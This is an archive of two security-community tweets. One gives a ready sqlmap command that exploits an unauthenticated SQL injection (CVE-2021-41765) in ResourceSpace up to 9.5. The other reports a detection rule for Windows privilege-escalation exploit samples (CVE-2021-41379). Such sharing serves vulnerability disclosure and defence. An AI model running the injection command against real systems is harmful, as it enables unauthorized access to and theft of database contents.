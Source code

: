 
# ya_and_alone
**https://twitter.com/ya_and_alone/status/1463693972480704520 _at 2021-11-25, 02:20:11_**
<blockquote>
CVE-2021-41765 ResourceSpace unauthorized SQL injection

ResourceSpace &lt;= 9.5

sqlmap --cookie 'upload_share_active=1' -u "http://127.0.0.1/pages/edit_fields/9_ajax/add_keyword.php?k=abcd" -p k --level=5 --risk3 --dbs --mysql

#vulnerability #infosec #BugBounty #bugbountytips
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>133</code></td>
<td>Favorites: <code>361</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1463486973885169666 _at 2021-11-24, 12:37:39_**
<blockquote>
Within the 48h since our rule for CVE-2021-41379 Windows LPE 0day exploit codes is active, we've noticed 30 different samples with more and less AV detection coverage

I you've found more, please let me know

rule info with links to each sample
https://t.co/SqUFOHvV1j https://t.co/Bz8dqOB5qV
</blockquote>

* https://valhalla.nextron-systems.com/info/rule/EXPL_Windows_InstallerFileTakeOver_CVE_2021_41379_Nov21_1

<table><tr>
